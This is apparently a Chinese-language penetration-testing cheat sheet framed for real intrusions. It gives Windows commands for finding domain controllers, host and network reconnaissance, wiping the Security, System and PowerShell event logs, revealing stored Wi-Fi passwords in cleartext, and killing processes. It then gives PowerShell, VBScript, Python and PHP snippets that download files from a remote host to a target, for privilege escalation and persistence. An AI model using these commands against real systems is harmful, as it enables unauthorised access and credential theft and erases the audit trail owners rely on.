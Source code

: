 # 查找域控的方法

1.net view
```
net view /domain
```
2.set log
```
set log
```
3.通过srv记录
```
nslookup -type=SRV _ldap._tcp.corp
```
4.使用nltest
```
nltest /dclist:corp
```
5.使用dsquery
```
DsQuery Server -domain corp
```
6.使用netdom
```
netdom query pdc
```
这些都是win系统自带的命令，有的时候win版本不同，有的命令会不存在，所以多一种方法，多一种成功的可能性，实际渗透，自行根据目标环境变换

# 命令行下收集主机方法

使用wmic识别安装到系统中的补丁情况
```
C:\> wmic qfe get description,installedOn
```
使用wmic获取杀毒软件信息
```
C:\> wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```
识别正在运行的服务
```
C:\> sc query type= service
C:\> net start
```
识别开机启动的程序，包括路径
```
C:\> wmic startup list full
```
ping探测存活主机
```
C:\> for /L %I in (100,1,254) DO @ping -w 1 -n 1 10.18.180.%I | findstr "TTL=" >> pinglive.txt
```
查看系统中网卡的IP地址和MAC地址
```
C:\> wmic nicconfig get ipaddress,macaddress
```
查看当前系统是否有屏保保护，延迟是多少
```
C:\> wmic desktop get screensaversecure,screensavertimeout
```
查看系统中开放的共享
```
C:\> wmic share get name,path
C:\> net share
```
查看系统中开启的日志
```
C:\> wmic nteventlog get path,filename,writeable
```
清除相关的日志（这里是全部清除）
```
C:\> wevtutil cl "windows powershell"
C:\> wevtutil cl "security"
C:\> wevtutil cl "system"
```
查看系统中安装的软件以及版本
```
C:\> wmic product get name,version
```
查看某个进程的详细信息 （路径，命令行参数等）
```
C:\> wmic process where name="chrome.exe" list full
```
终止一个进程
```
C:\> wmic process where name="xshell.exe" call terminate
C:\> ntsd -c q -p 进程的PID
```
显示系统中的曾经连接过的无线密码
```
C:\> netsh wlan show profiles 
C:\> netsh wlan show profiles name="profiles的名字" key=clear
```
查看当前系统是否是VMWARE
```
C:\> wmic bios list full | find /i "vmware"
```

# 下载文件的15种方法

参考:
https://www.netspi.com/blog/entryid/231/15-ways-to-download-a-file

在我们的入侵过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。这篇blog列举了15种下载文件的方法。

当然还有许多其它的办法来上传文件，下面的列表是15个我比较喜欢使用的技巧。
## PowerShell File Download
PowerShell 是一种winodws原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在windows 2003之中默认支持这种脚本。

下面这两条指令实现了从Internet网络下载一个文件。
```
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
```

下面这条指令是执行一个文件
```
PS C:\> .\test.ps1
```

有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。
```
C:\>powershell set-executionpolicy unrestricted
```

## Visual Basic File Download
在1998年Visual Basic最终标准在windows上确定。下面的代码可以实现下载文件，虽然它的长度比Powershell长多了。
```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with
```

在windows中Cscript指令可以允许你执行VBS脚本文件或者对script脚本做一些设置。在windows 7中这个指令并不是必须要用到。 但是在windows XP中需要使用这条指令，如下所示。
```
C:>cscript test.vbs
```



以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。
## Python File Download
Python也是很受欢迎的主流脚本语言，代码清晰且简洁。
```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()
```

## PHP File Download
PHP作为一种服务端脚本，也可以实现下载文件这种功能。
```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

